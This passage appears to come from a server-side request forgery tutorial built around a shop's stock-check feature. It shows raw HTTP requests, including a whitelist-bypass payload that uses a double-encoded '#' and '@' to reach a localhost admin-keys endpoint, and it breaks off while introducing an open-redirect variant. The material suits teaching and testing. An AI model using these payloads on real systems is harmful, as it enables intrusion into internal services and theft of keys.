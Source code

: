          POST /product/stock HTTP/2
         Host: subdomain.target.com
         Cookie: session=Cbk1v0cQskhHLqkG19kybRHR2griby7p
         Content-Length: 96
         ...
         ...
         stockApi=http://stock.weliketoshop.net/product/stock/check?productId=2

2) Now, in this case the the request will only process when the `stock.weliketoshop.net` is present in `stockApi` 
      parameter, if not then application will not accept it and gives an error. 
   
3) So, There are tons of methods to bypass this, for very basic we can frame the request like this ...

         POST /product/stock HTTP/2
         Host: subdomain.target.com
         Cookie: session=Cbk1v0cQskhHLqkG19kybRHR2griby7p
         Content-Length: 96
         ...
         ...
         stockApi=http://localhost%2523@stock.weliketoshop.net/api/admin_keys

4) In the above request the `#` is double url-encoded , so firstly the application check weather 
      `stock.weliketoshop.net` is present or not..!!, if yes then it will process the request futher
   
5) The `#` is comment the `stock.weliketoshop.net` and, `@` is append the remaining value to `localhost`, hence the
      final parameter look like this and then server will process it and respond the internal stuff.

         stockApi=http://localhost/api/admin_apikeys
 ---
### SSRF with filter bypass via open redirection vulnerability

1) Consider an E-commerce application fetches stock of the product from internal services, the request goes like..

   - 1- Fetching Stock from Backend                     

         POST /product/stock HTTP/2
         Host: subdomain.target.com
         Cookie: session=Cbk1v0cQskhHLqkG19kybRHR2griby7p
         Content-Length: 96
         ...
         ...
         stockApi=/product/stock/check/?productId=1&storeId=3

   - 2 - and at some point in the application, it is also vulnerable to "Open Redirect" , the request look like this
   
2) Vulnerable Open Redirect Request

       GET /product/nextProduct?currentProductId=2&path=/product?productId=3 HTTP/2
       Host: subdomain.target.com
       Cookie: session=Cbk1v0cQskhHLqkG19kybRHR2griby7p
       Content-Length: 0
